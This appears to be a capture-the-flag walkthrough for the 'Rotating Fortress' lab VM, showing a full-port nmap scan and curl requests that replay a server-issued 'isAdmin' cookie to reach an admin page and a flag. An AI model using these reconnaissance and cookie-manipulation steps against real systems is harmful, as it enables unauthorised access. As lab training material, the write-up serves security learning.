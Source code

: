 https://hackso.me/rotating-fortress-1.0.1-walkthrough/


Description

Difficulty: Intermediate/Hard

Rotating Fortress has been serveral months in the making and has a unique feature that sets it apart from other vms ;)

Zeus the admin of the server is retiring from Project: Rotating Fortress, but he doesn't want the project to die with his retirment. To find the successor to the project he has created a challenge. Will you be able to get in, rotate the fortress, escape isolation and reach root?

Your Goal is to get root and read /flag.txt

Note: This isn't a short VM and may take several hours to complete.


└─$ sudo nmap -sT -A -Pn -n -p- 192.168.110.13
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-13 15:32 CEST
Nmap scan report for 192.168.110.13
Host is up (0.00041s latency).
Not shown: 65533 closed ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
27025/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP, GenericLines, SSLSessionReq: 
|     Connection establised 
|     Requesting Challenge Hash...
|   DNSVersionBindReqTCP, HTTPOptions, NULL, RPCCheck, RTSPRequest, TLSSessionReq, TerminalServerCookie: 
|     Connection establised 
|     Requesting Challenge Hash... 
|     Connection Closed: Access Denied [Challenge Hash Did Not Return Any Results From Database]
|   GetRequest: 
|     Connection establised 
|     Connection Closed: Access Denied [Challenge Hash Did Not Return Any Results From Database] 
|_    Requesting Challenge Hash...
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port27025-TCP:V=7.91%I=7%D=4/13%Time=60759D69%P=x86_64-pc-linux-gnu%r(N
SF:ULL,91,"Connection\x20establised\x20\nRequesting\x20Challenge\x20Hash\.
SF:\.\.\x20\nConnection\x20Closed:\x20Access\x20Denied\x20\[Challenge\x20H
SF:ash\x20Did\x20Not\x20Return\x20Any\x20Results\x20From\x20Database\]\x20
SF:\n")%r(GenericLines,35,"Connection\x20establised\x20\nRequesting\x20Cha
SF:llenge\x20Hash\.\.\.\x20\n")%r(GetRequest,91,"Connection\x20establised\
SF:x20\nConnection\x20Closed:\x20Access\x20Denied\x20\[Challenge\x20Hash\x
SF:20Did\x20Not\x20Return\x20Any\x20Results\x20From\x20Database\]\x20\nReq
SF:uesting\x20Challenge\x20Hash\.\.\.\x20\n")%r(HTTPOptions,91,"Connection
SF:\x20establised\x20\nRequesting\x20Challenge\x20Hash\.\.\.\x20\nConnecti
SF:on\x20Closed:\x20Access\x20Denied\x20\[Challenge\x20Hash\x20Did\x20Not\
SF:x20Return\x20Any\x20Results\x20From\x20Database\]\x20\n")%r(RTSPRequest
SF:,91,"Connection\x20establised\x20\nRequesting\x20Challenge\x20Hash\.\.\
SF:.\x20\nConnection\x20Closed:\x20Access\x20Denied\x20\[Challenge\x20Hash
SF:\x20Did\x20Not\x20Return\x20Any\x20Results\x20From\x20Database\]\x20\n"
SF:)%r(RPCCheck,91,"Connection\x20establised\x20\nRequesting\x20Challenge\
SF:x20Hash\.\.\.\x20\nConnection\x20Closed:\x20Access\x20Denied\x20\[Chall
SF:enge\x20Hash\x20Did\x20Not\x20Return\x20Any\x20Results\x20From\x20Datab
SF:ase\]\x20\n")%r(DNSVersionBindReqTCP,91,"Connection\x20establised\x20\n
SF:Requesting\x20Challenge\x20Hash\.\.\.\x20\nConnection\x20Closed:\x20Acc
SF:ess\x20Denied\x20\[Challenge\x20Hash\x20Did\x20Not\x20Return\x20Any\x20
SF:Results\x20From\x20Database\]\x20\n")%r(DNSStatusRequestTCP,35,"Connect
SF:ion\x20establised\x20\nRequesting\x20Challenge\x20Hash\.\.\.\x20\n")%r(
SF:SSLSessionReq,35,"Connection\x20establised\x20\nRequesting\x20Challenge
SF:\x20Hash\.\.\.\x20\n")%r(TerminalServerCookie,91,"Connection\x20establi
SF:sed\x20\nRequesting\x20Challenge\x20Hash\.\.\.\x20\nConnection\x20Close
SF:d:\x20Access\x20Denied\x20\[Challenge\x20Hash\x20Did\x20Not\x20Return\x
SF:20Any\x20Results\x20From\x20Database\]\x20\n")%r(TLSSessionReq,91,"Conn
SF:ection\x20establised\x20\nRequesting\x20Challenge\x20Hash\.\.\.\x20\nCo
SF:nnection\x20Closed:\x20Access\x20Denied\x20\[Challenge\x20Hash\x20Did\x
SF:20Not\x20Return\x20Any\x20Results\x20From\x20Database\]\x20\n");
MAC Address: 08:00:27:CC:11:0A (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.41 ms 192.168.110.13

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 154.00 seconds
                                                                

└─$ curl -c cookie http://192.168.110.13/Janus.php
<html>
<title>
Janus
</title>
<body>
    You're not the Admin!
</body>
</html>

└─$ cat cookie
# Netscape HTTP Cookie File
# https://curl.se/docs/http-cookies.html
# This file was generated by libcurl! Edit at your own risk.

192.168.110.13  FALSE   /       FALSE   0       isAdmin 1
 └─$ curl -b cookie http://192.168.110.13/Janus.php
<html>
<title>
Janus
</title>
<body>
    Welcome Back Admin Last edited file was: /LELv3FfpLrbX1S4Q2FHA1hRtIoQa38xF8dzc8O9z/home.html Flag: 1{7daLI]} ggez
</body>
</html>
      